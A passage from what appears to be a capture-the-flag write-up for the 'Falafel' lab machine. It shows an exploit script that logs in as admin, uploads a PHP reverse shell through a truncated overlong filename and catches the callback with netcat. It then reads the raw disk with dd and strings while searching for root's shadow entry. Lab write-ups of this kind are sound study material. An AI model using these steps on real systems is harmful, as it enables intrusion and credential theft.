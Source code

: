 



    root@kali# ./get_falafel_shell.py -h
    usage: get_falafel_shell.py [-h] [--web-port WEB_PORT] [-n NC_PORT]
                                [--web-dir WEB_DIR] [--local-ip LOCAL_IP]

    optional arguments:
      -h, --help            show this help message and exit
      --web-port WEB_PORT, -w WEB_PORT
                            webserver port
      -n NC_PORT, --nc-port NC_PORT
                            nc port
      --web-dir WEB_DIR, -d WEB_DIR
                            location to serve files from
      --local-ip LOCAL_IP, -i LOCAL_IP
                            local ip

    root@kali# ./get_falafel_shell.py -n 9000
    [*] Starting webserver thread from /tmp on port 8082
    [*] Getting logon.php with phpsession cookie
    [*] Logging in with admin / 240610708
    [*] Uploading reverse shell php
    10.10.10.73 - - [20/Jun/2018 09:30:34] "GET /BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB.php.png HTTP/1.1" 200 -
    [*] Activating shell. Expect callback on 10.10.14.159:9000
    [*] Cleaning up and exiting





    root@kali# nc -lnvp 9000
    listening on [any] 9000 ...
    connect to [10.10.14.159] from (UNKNOWN) [10.10.10.73] 60076
    /bin/sh: 0: can't access tty; job control turned off
    $



### Root shell - fail

In main disk, there's what looks like the root line of an `/etc/shadow`
file:



    yossi@falafel:/dev/shm/.d$ dd if=/dev/sda1 bs=1024 | strings -a | grep root > strings
    7339008+0 records in
    7339008+0 records out
    7515144192 bytes (7.5 GB, 7.0 GiB) copied, 394.058 s, 19.1 MB/s

    yossi@falafel:/dev/shm/.d$ blockdev --getsize /dev/sda1
    14678016

    yossi@falafel:/dev/shm/.d$ dd if=/dev/sda1 bs=1024 | strings -a | grep root > strings
    7339008+0 records in
    7339008+0 records out
    7515144192 bytes (7.5 GB, 7.0 GiB) copied, 394.058 s, 19.1 MB/s
